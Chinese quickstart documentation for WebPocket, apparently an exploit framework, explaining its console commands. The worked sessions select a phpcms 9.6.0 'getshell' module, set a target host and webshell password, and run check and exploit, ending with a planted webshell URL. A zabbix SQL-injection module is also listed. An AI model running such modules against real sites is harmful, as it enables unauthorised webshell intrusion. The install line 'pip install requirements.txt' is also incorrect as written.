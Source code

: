 ==================
快速入门
==================


下载 && 安装
==================

首先克隆最新的代码到本地 ::

    git clone https://github.com/TuuuNya/WebPocket

然后安装Python所需的模块 ::

    pip install requirements.txt

如果要使用虚拟环境可自行安装virtualenv等Python虚拟环境。

执行如下命令，如果看到WebPocket的Banner则为安装完成。 ::

    python WebPocket.py
    ➜ python3 WebPocket.py

    W)      ww         b)      P)ppppp                  k)               t)
    W)      ww         b)      P)    pp                 k)             t)tTTT
    W)  ww  ww e)EEEEE b)BBBB  P)ppppp   o)OOO   c)CCCC k)  KK e)EEEEE   t)
    W)  ww  ww e)EEEE  b)   BB P)       o)   OO c)      k)KK   e)EEEE    t)
    W)  ww  ww e)      b)   BB P)       o)   OO c)      k) KK  e)        t)
     W)ww www   e)EEEE b)BBBB  P)        o)OOO   c)CCCC k)  KK  e)EEEE   t)T




    (✿ ♥‿♥)   WebPocket has 2 modules

    WebPocket >

常用命令
==================

首先执行 ``python WebPocket.py`` 进入交互式命令行。

help
-----------

输入 ``help`` 可查看所有命令 ::

    WebPocket > help

    Documented commands (type help <topic>):

    Core Command
    ============
    banner  db_rebuild

    Module Command
    ==============
    back  check  exploit  list  reload  run  search  set  show  use

    Other
    =====
    help  history  quit

    WebPocket >

``help`` 后可跟WebPocket命令，用来查看WebPocket命令的作用 ::

    WebPocket > help  quit
    Usage: quit [-h]

    Exit this application

    optional arguments:
      -h, --help  show this help message and exit

    WebPocket >

list
-------------

``list`` 命令用来列出所有可用的模块 ::

    WebPocket > list
    Module List:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/zabbix_2_0_3_sqli               False    2016-08-22         zabbix 2.0.3 jsrpc.php sqli
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The list is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

注：WebPocket启动时会自动创建sqlite数据库，位于 ``database/`` 目录下， ``list`` 命令和 ``search`` 命令都是从数据库中取出的数据。
如果新添加了模块，需要执行 ``db_rebuild`` 重新构建数据库以用于检索。

search
----------

``search`` 命令用来检索模块，可根据 ``name``, ``module_name``, ``description``, ``author``, ``disclosure_date``, ``service_name``, ``service_version``, ``check`` 字段来进行检索。

默认按 ``module_name`` 检索，比如： ::

    WebPocket > search phpcms
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

支持多个关键词，使用方法如下: ::

    WebPocket > search service_name=phpcms  service_version=9.6.0
    Search results:

    module_name                                  check    disclosure_date    description
    -------------------------------------------  -------  -----------------  -----------------------------------
    exploits/cms/phpcms_9_6_0_register_getshell  True     2017-04-14         phpcms 9.6.0 register page getshell

    [+] The search is only retrieved from the database
    [+] If you add some new modules, please execute `db_rebuild` first

    WebPocket >

use
----------

``use`` 命令用于选择要使用的模块： ::

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

show
----------

``show`` 命令可用于查看模块信息，支持 ``info``, ``options``, ``missing`` 子命令。

 * ``show info`` 命令用于查看模块信息以及模块参数
 * ``show options`` 命令用于查看模块参数
 * ``show missing`` 命令用于查看必填却没有填写的参数

使用样例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show info
    Module info:

               name:  phpcms 9.6.0 register getshell
        description:  phpcms 9.6.0 register page getshell
             author:  ['unknown']
         references:  ['https://www.hackersb.cn/hacker/219.html']
    disclosure_date:  2017-04-14
       service_name:  phpcms
    service_version:  9.6.0

    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show missing
    Missing Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

set
----------

``set`` 命令用于设置模块参数，格式为：``set name value``，使用案例如下: ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

check
----------

``check`` 方法用于检测目标是否存在该模块所对应的漏洞。可理解为验证漏洞（POC）。

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > check
    [+] Check success!
    [+] Target http://www.hackersb.cn has vul
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

exploit / run
---------------

``exploit`` 命令等同于 ``run`` ，用于执行模块/Exploit

使用案例如下： ::

    WebPocket > use exploits/cms/phpcms_9_6_0_register_getshell
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > show options
    Module options:

    name      required    description        value
    --------  ----------  -----------------  -------
    host      True        The target domain
    password  True        webshell password

    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set host http://www.hackersb.cn
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > set password 123
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) > exploit
    [+] Exploit success!
    [+] Webshell: http://www.hackersb.cn/shell.php
    [*] module execution completed
    WebPocket exploits(cms/phpcms_9_6_0_register_getshell) >

back
----------

``back`` 命令用于取消选中的模块，和 ``use`` 命令相反。

reload
----------

``reload`` 命令用于重新加载模块，比如在执行WebPocket以后，修改了模块代码，需要重新加载最新的代码，可以使用该命令。

